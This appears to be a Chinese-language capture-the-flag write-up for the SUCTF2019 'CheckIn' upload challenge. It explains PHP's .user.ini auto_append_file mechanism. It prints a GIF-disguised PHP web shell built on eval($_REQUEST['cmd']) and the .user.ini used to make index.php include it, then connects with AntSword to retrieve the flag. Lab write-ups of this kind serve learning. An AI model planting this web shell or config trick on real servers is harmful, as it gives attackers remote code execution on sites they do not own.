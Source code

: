 ```yaml
---
title: SUCTF2019 CheckIn
date: 2023-11-28
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，映入眼帘的文件上传入口

![](https://z1.ax1x.com/2023/11/28/piDiaNR.png)

直接扔一个改良版图片马进去，文件名为 `cmd.gif`（别问，问就是没改良过的会因为有 `<?` 而被拦截，然后与 php 搭边的文件后缀一概被拦截，无一例外，只能从别的方向入手）

```php
GIF89a
<script language="php">
eval($_REQUEST['cmd']);
</script>
```

上传成功，回显如下

![](https://z1.ax1x.com/2023/11/28/piDiIv8.png)

那么思路就很明确了，要么是 `.htaccess`，要么是 `.user.ini`，如果当前服务器是 Apache，那就选前者，如果是 Nginx，就选后者，很不巧，Wappalyzer 说这个是 Nginx，那么我们就可以构造 `.user.ini` 配置文件了

实际上，这道题摆明了 `.user.ini` 的还是上传目录下有一个 `index.php`，只要我 `.user.ini` 构造出能让该文件自动包含我的图片马，那就能获得控制权

## 构造 `.user.ini`

### 具体原理

`.user.ini` 是一个特殊的配置文件，用于在 PHP 5.3.0 及更高版本中指定特定目录的配置选项。它的作用类似于 Apache 服务器中的 `.htaccess` 文件

`.user.ini` 文件主要用于 CGI/FastCGI SAPI 的处理。这意味着只有在服务器上运行 PHP 的 CGI 或 FastCGI 模式时，`.user.ini` 文件才会被解析和使用。一般来说，如果你使用共享主机或虚拟主机服务，通常会支持此功能。但如果你使用独立服务器或其他非标准配置，可能需要检查服务器设置是否允许使用 `.user.ini` 文件

`.user.ini` 文件中的两个常见配置选项是 `auto_prepend_file` 和 `auto_append_file`。它们分别指定了一个文件的路径，该文件会在执行 PHP 文件之前（auto_prepend_file）或之后（auto_append_file）自动包含进来

举个例子，假设你的项目目录中有一个名为 `index.php` 的可执行文件，你可以在与 `index.php` 同级的目录下创建一个名为 `.user.ini` 的文件，并在其中添加如下内容：

```
auto_prepend_file = /path/to/file.php
auto_append_file = /path/to/another_file.php
```

在这个例子中，`/path/to/file.php` 文件将会在执行 `index.php` 之前被自动包含进来，而 `/path/to/another_file.php` 文件则会在执行 `index.php` 之后被自动包含进来

这个特性的妙用之处在于，你可以通过在 `.user.ini` 文件中设置 `auto_prepend_file` 和 `auto_append_file` 来自动包含一些公共代码或功能，而无需在每个 PHP 文件中手动引入。这样可以提高开发效率和代码的可维护性

需要注意的是，只有在 **CGI/FastCGI** 模式下才会解析和使用 `.user.ini` 文件。如果你的服务器不支持这种模式，那么 `.user.ini` 文件将不起作用

此外，请确保 `.user.ini` 文件位于要执行的 PHP 文件所在的目录下，并且具有正确的文件权限，以便服务器可以读取和解析它

总结来说，`.user.ini` 文件是用于在指定目录中配置 PHP 选项的一种方法，特别适用于 CGI/FastCGI 模式。它的主要作用是通过设置 `auto_prepend_file` 和 `auto_append_file` 实现自动包含文件的功能，提高代码复用性和开发效率

### 属于这道题的 `.user.ini`

```
GIF89a
auto_append_file=cmd.gif
```

还是老方法，直接上传，上传完回显如下

![](https://z1.ax1x.com/2023/11/28/piDFpKU.png)

此时当我们访问 `http://058f8abf-f188-4e67-8f17-d2b0d33ed166.node4.buuoj.cn:81/uploads/c55e0cb61f7eb238df09ae30a206e5ee/index.php`

你就可以看到清晰的几个大字

```
GIF89a
```

说明我们的图片马被成功包含了

## 攻入靶机

使用蚁剑连接，可以找到 Flag，最后的结果是 `flag{76446301-92d7-4238-a6c7-48b2bd849a49}`